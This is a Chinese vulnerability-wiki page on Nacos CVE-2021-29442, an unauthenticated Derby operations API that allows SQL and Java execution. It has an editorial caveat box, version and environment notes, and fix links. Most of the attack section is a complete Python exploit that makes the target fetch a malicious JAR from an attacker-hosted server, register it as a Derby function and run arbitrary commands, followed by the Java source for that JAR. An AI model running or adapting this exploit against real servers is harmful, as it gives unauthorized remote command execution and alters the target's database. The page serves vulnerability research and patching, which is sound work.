


# Nacos 未授权接口命令执行漏洞 CVE-2021-29442

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：内置Derby、运维接口启用、旧版鉴权缺失或新版本未启用认证/具有admin、远程JAR可出站获取
- 证据范围：removal导入JAR/设class path/建函数，derby SELECT触发链；文将<1.4.1与2.3.2/2.4.0一并标旧CVE需要拆分

### 已有来源支持的更正

- 厂商2024公告说明新版开启认证需admin、MySQL关闭该接口；2.4.0添加API开关，2.4.1限制SQL类型，需显式选项扩大功能

### 本次正文校订

- 明确缺失附件，而非把不存在的本地文件保留为可点击链接。
- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 不能把新版本认证关闭的运维功能滥用全部归旧CVE
- 无限重试修改数据库、未清理JAR/UDF/classpath，非无副作用检测
- Runtime.exec(cmd)不是自动shell，复杂命令语法有差异
- 相对poc.py链接需检查目标；正文已有代码可替代

### 核验来源

- https://nacos-group.github.io/blog/announcement-derby-ops-api/

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在 Nacos 1.4.1 之前的版本中，一些 API 端点（如 `/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意 Derby SQL 语句和 Java 代码。

参考链接：

- https://github.com/advisories/GHSA-xv5h-v7jh-p2qh
- https://github.com/alibaba/nacos/issues/4463
- http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce
- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html

## 漏洞影响

Nacos 未鉴权且使用 Derby 数据库作为内置数据源：

```
Nacos < 1.4.1
Nacos 2.3.2
Nacos 2.4.0
```

## 环境搭建

Vulhub 执行如下命令启动一个 Alibaba Nacos 1.4.0 服务器：

```shell
docker compose up -d  
```

服务器启动后，访问 `http://your-ip:8848/nacos/` 可以看到 Nacos 的默认登录页面。




## 漏洞复现

将恶意 JAR 包 [evil.jar](https://github.com/vulhub/vulhub/blob/master/nacos/CVE-2021-29442/evil.jar) 上传到攻击者的 HTTP 服务器上，例如 `http://some-webserver/evil.jar`。

执行 POC（原引用文件名 `poc.py`，本归档未包含该附件，不能把它当作已可下载的完整代码）：

```shell
python poc.py -t http://your-ip:8848 -s http://some-webserver/evil.jar -c "id"  
```

`-t` 参数指定目标地址，`-s` 参数指定恶意 JAR 包的地址，`-c` 参数指定要执行的命令。




## 漏洞 POC

poc.py

```python
import random
import sys
import requests
from urllib.parse import urljoin
import argparse


def exploit(target, command, service):  
    removal_url = urljoin(target, '/nacos/v1/cs/ops/data/removal')
    derby_url = urljoin(target, '/nacos/v1/cs/ops/derby')
    for i in range(0, sys.maxsize):
        id = ''.join(random.sample('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', 8))
        post_sql = f"""CALL sqlj.install_jar('{service}', 'NACOS.{id}', 0)
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath', 'NACOS.{id}')
CREATE FUNCTION S_EXAMPLE_{id}( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'
"""
        get_sql = f"select * from (select count(*) as b, S_EXAMPLE_{id}('{command}') as a from config_info) tmp"
        files = {'file': post_sql}
        post_resp = requests.post(url=removal_url, files=files)
        post_json = post_resp.json()
        if post_json.get('message', None) is None and post_json.get('data', None) is not None:
            print(post_resp.text)
            get_resp = requests.get(url=derby_url, params={'sql': get_sql})
            print(get_resp.text)
            break


def main():
    parser = argparse.ArgumentParser(description='Exploit script for Nacos CVE-2021-29442')
    parser.add_argument('-t', '--target', required=True, help='Target URL')
    parser.add_argument('-c', '--command', required=True, help='Command to execute')
    parser.add_argument('-s', '--service', required=True, help='Service URL')
    
    args = parser.parse_args()
    
    exploit(args.target, args.command, args.service)

if __name__ == '__main__':
    main()
```

evil.jar

```
package test.poc;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.io.StringWriter;

public class Example {
  public static void main(String[] args) {
    String ret = exec("ipconfig");
    System.out.println(ret);
  }
  
  public static String exec(String cmd) {
    StringBuffer bf = new StringBuffer();
    try {
      String charset = "utf-8";
      String osName = System.getProperty("os.name");
      if (osName != null && osName.startsWith("Windows"))
        charset = "gbk"; 
      Process p = Runtime.getRuntime().exec(cmd);
      InputStream fis = p.getInputStream();
      InputStreamReader isr = new InputStreamReader(fis, charset);
      BufferedReader br = new BufferedReader(isr);
      String line = null;
      while ((line = br.readLine()) != null)
        bf.append(line); 
    } catch (Exception e) {
      StringWriter writer = new StringWriter();
      PrintWriter printer = new PrintWriter(writer);
      e.printStackTrace(printer);
      try {
        writer.close();
        printer.close();
      } catch (IOException iOException) {}
      return "ERROR:" + writer.toString();
    } 
    return bf.toString();
  }
}
```

## 漏洞修复

- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/ 关于 Nacos Derby 数据库运维接口 `/nacos/v1/cs/ops/derby` 相关问题公告
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html Nacos 鉴权文档


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
